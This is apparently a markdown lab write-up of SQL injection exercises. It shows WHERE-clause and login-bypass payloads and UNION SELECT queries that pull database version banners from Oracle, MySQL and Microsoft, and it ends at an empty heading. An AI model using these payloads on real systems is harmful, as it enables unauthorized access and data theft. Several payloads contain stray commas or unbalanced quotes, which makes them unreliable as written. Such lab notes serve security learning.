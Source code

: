### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This is the query being executed:
`SELECT * FROM products WHERE category = 'XXX AND released = 1`

This was the injection:
`Pets' OR 1=1--`

This is how the query looks like:
```sql
SELECT * FROM products WHERE category = 'Pets' OR 1=1--' AND released = 1
``` 

----------------------
### SQL injection vulnerability allowing login bypass

This is the query being executed:
`SELECT * FROM users WHERE username = 'XXX' AND password = 'XXX'

This was the injection: 
`administrator'--`

This is how the query looks like:
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'XXX'
```

You are ignoring the rest of the query after the username, that's why you can log in as "administrator". Password is being ignored

---
### SQL injection attack, querying the database type and version on Oracle

There is a built-in table in Oracle databases called "dual". So, after finding the vulnerable parameter, you can this query:
`Gifts'UNION SELECT NULL, FROM dual-- -` and keep adding "NULL" until you find the correct amount of columns. After that, you can grab the version by doing this query:
`Gifts'UNION SELECT BANNER, 'NULL', FROM v$version-- -`

---
### SQL injection attack, querying the database type and version on MySQL and Microsoft

After you get the vulnerable parameter, find the amount of columns the table has with the UNION SELECT attack.

Then, in one of the values, inject @@version, like this:
`'UNION SELECT @@version,NULL#`

---
### SQL injection attack, listing the database contents on non-Oracle databases
